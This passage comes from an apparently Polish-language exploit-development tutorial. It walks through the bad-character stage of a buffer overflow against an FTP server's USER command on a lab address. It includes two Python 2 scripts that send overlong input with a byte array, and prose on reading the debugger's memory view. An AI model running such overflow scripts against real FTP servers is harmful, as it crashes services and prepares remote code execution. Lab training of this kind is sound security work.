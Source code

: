 ```
print "Fuzzing PASS with %s bytes" % len(string)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.241.133',21))
s.recv(1024)
s.send('USER ' + string + '\r\n')
s.send('QUIT\r\n')
s.close()
```
- Uruchamiamy skrypt i obserwujemy w debugerze zawartość pamięci. Widać, że w pamięci znajdują się wysłane przez nas bajty "... AAAAAAAABBBB0102030405 ...". Widać także, że po bajcie "09" znajdują się "losowe" bajty, w szczególności nie jest to bajt "0A". Oznacza to że bajt "0A" przerwał wczytywanie danych do pamięci.
![](https://i.imgur.com/fZaajf9.png)

- Następnie modyfikujemy skrypt usuwając z niego zły znak, w tym przypadku był to bajt "0A" i powtarzamy procedurę do momentu, aż do pamięci wczytane zostaną wszystkie wysłane dane.


- Finalnie skrypt prezentuje się następująco (pominięto bajty **x00, x0A, x0D**)

```
#!/usr/bin/python2
import socket,sys


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10"
	"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
	"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
	"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
	"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
	"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
	"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
	"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
	"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
	"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
	"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
	"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
	"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
	"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
	"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
	"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
# delete 0x00, x0A, x0D



string = 'A' * 230 + 'B' * 4 + badchars
print "Fuzzing PASS with %s bytes" % len(string)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.241.133',21))
s.recv(1024)
s.send('USER ' + string + '\r\n')
s.send('QUIT\r\n')
s.close()
```
